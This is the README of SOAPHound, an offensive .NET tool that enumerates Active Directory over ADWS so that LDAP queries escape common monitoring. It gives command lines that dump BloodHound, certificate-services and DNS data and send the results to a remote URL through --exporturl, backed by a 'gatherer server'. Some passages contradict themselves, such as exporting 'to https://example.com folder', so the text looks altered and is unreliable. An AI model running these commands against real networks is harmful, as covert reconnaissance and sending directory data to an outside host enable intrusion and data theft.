 ![logo](soaphound-logo.png)

# Description

SOAPHound is a .NET data collector tool, which collects Active Directory data via the Active Directory Web Services (ADWS) protocol.

SOAPHound is an alternative to a number of open source security tools which are commonly used to extract Active Directory data via LDAP protocol. SOAPHound is able to extract the same information without directly communicating to the LDAP server. Instead, LDAP queries are wrapped within a series of SOAP messages, which are sent to the ADWS server using NET TCP Binding communication channel. Following, ADWS server unwraps the LDAP queries and forwards them to the LDAP server running on the same Domain Controller. As a result, LDAP traffic is not sent via the wire and therefore is not easily detected by common monitoring tools.

Note that this is a proof of concept tool and is not intended for production use. The tool is provided as is, without warranty of any kind.

For additional details on the SOAPHound tool, please refer to the following blog post: [SOAPHound — tool to collect Active Directory data via ADWS](https://falconforce.nl/soaphound-tool-to-collect-active-directory-data-via-adws/).

# Usage

The `--help` command line argument can be used to display the following usage information:

```
SOAPHound
Copyright (c) 2024 FalconForce

Connection and authentication options:
  --user                   Username to use for ADWS Connection. Format: domain\user or user@domain
  --password               Password to use for ADWS Connection
  --domain                 Specify domain for enumeration
  --dc                     Domain Controller to connect to

Supported collection methods:
  --buildcache             (Default: false) Only build cache and not perform further actions
  --dnsdump                (Default: false) Dump AD Integrated DNS data
  --certdump               (Default: false) Dump AD Certificate Services data
  --bhdump                 (Default: false) Dump BH data

Output options:
  -u, --exporturl          URL to export outputs to 
  -c, --cachefilename      Filename for the cache file (full path needed)

Splitting options:
  -a, --autosplit          (Default: false) Enable AutoSplit mode: automatically split object retrieval on two depth levels based on defined trheshold
  -t, --threshold          (Default: 0) AutoSplit mode: Define split threshold based on number of objects per starting letter

Miscellaneous options:
  --nolaps                 (Default: false) Do not request LAPS related information
  --showstats              Show stats of local cache file
  --logfile                Create log file
  --help                   Display this help screen.
```

# Start the Gatherer Server

See `GathererServer/README.md` for instructions on how to start the server to gather exported logs.

# Connection and authentication options

## Authentication

SOAPHound supports the following authentication methods:
* Using the existing authentication token of the current user. This is the default option if no username and password are supplied.
* Supplying a username and password on the command line.

## Domain Connection Information

When SOAPHound runs in a domain-joined machine, it will automatically attempt to connect to the Domain Controller of the domain the machine is joined to. 
This can be overridden by supplying the `--dc` and `--domain` command line arguments.

# Supported collection methods

One of the following collection methods must be specified:
* `--buildcache`: Only build cache and not perform further actions
* `--bhdump`: Dump BloodHound data
* `--certdump`: Dump AD Certificate Services (ADCS) data
* `--dnsdump`: Dump AD Integrated DNS data


## Building the cache

SOAPHound is able to generate a cache file that contains basic information about all domain objects, such as Security Identifier (SID), Distinguished Name (DN) and ObjectClass. 
This cache file is required for BloodHound related data collection (i.e. the `--bhdump` and `--certdump` collection methods), since it is used when crafting the trust relationships between objects via the relevant Access Control Entries (ACEs).

An example command to build the cache file is:

```
SOAPHound.exe --buildcache -c c:\temp\cache.txt
```

This will generate a cache file in the `c:\temp` folder. The cache file is a JSON formatted mapping of basic information about all domain objects.
To view some statistics about the cache file (i.e. number of domain objects starting with each letter), you can use the `--showstats` command line argument:

```
SOAPHound.exe --showstats -c c:\temp\cache.txt
```

## Collecting BloodHound Data

After the cache file has been generated, you can use the `--bhdump` collection method to collect data from the domain that can be imported into BloodHound.

An example command to collect BloodHound data is (note that this references the cache file generated in the previous step):

```
SOAPHound.exe -c c:\temp\cache.txt --bhdump --exporturl https://example.com
```

If the targeted domain does not use LAPS, you can use the `--nolaps` command line argument to skip the LAPS related data collection. 

This command will export the logs to `https://example.com` folder and produce a number of JSON files that can be imported into BloodHound. 
The JSON files contain the collected Users, Groups, Computers, Domains, GPOs and Containers, including their relationships. SOAPHound is compatible with Bloodhound version 4. 

### Dealing with large domains

If you are dealing with a large domain, you may run into issues with the amount of data that can be retrieved in a single request.
To deal with this, SOAPHound supports the `--autosplit` and `--threshold` command line arguments.

The `--autosplit` command line argument enables the AutoSplit mode, which will automatically split object retrieval on two depth levels based on a defined threshold.
The `--threshold` command line argument defines the split threshold based on the number of objects per starting letter.

An example command to collect BloodHound data in AutoSplit mode is:

```
SOAPHound.exe -c c:\temp\cache.txt --bhdump --exporturl https://example.com --autosplit --threshold 1000
```

This will generate the output in batches of a maximum of 1000 objects per starting letter. 
If there are more than 1000 objects for a single starting letter, SOAPHound will use two depth levels to retrieve the objects.
This will result in larger number of queries, each one returning a maximum of 1000 objects.

For example if there are 2000 objects starting with the letter `a`, SOAPHound will retrieve objects
starting with `aa`, `ab`, `ac`, etc., each in a separate query to avoid timeouts.

## Collecting ADCS Data

After the cache file has been generated, you can use the `--certdump` collection method to collect ADCS data from the domain that can be imported into BloodHound.
This collection method does not support the `--autosplit` and `--threshold` command line arguments.

An example command to collect ADCS data is (note that this references the cache file generated in previous step):

```
SOAPHound.exe -c c:\temp\cache.txt --certdump --exporturl https://example.com
```

This command will produce two JSON files that can be imported into BloodHound, containing information about the Certificate Authorities (CA) and Certificate Templates and export it to `https://example.com` . SOAPHound is compatible with Bloodhound version 4 and ADCS data are classified as GPO objects in Bloodhound.

## Collecting AD Integrated DNS Data

Apart from BloodHound data, SOAPHound can also be used to collect AD Integrated DNS data. This does not require a cache file and does not support the `--autosplit` and `--threshold` command line arguments.

An example command to collect AD Integrated DNS data is:

```
SOAPHound.exe --dnsdump --exporturl https://example.com
```

This command will export a dump of all the AD Integrated DNS data.

# Acknowledgements

This tool is based on the work of the following open source projects:
* [SharpHound](https://github.com/BloodHoundAD/SharpHound/tree/dev)
* [StandIn](https://github.com/FuzzySecurity/StandIn)
* [Certify](https://github.com/GhostPack/Certify)

Another big thanks to [PingCastle](https://github.com/vletoux/pingcastle) for their reference implementation of the ADWS protocol. 
While we do not use their code directly, it was a great help in understanding the protocol and realizing the potential of the ADWS protocol.
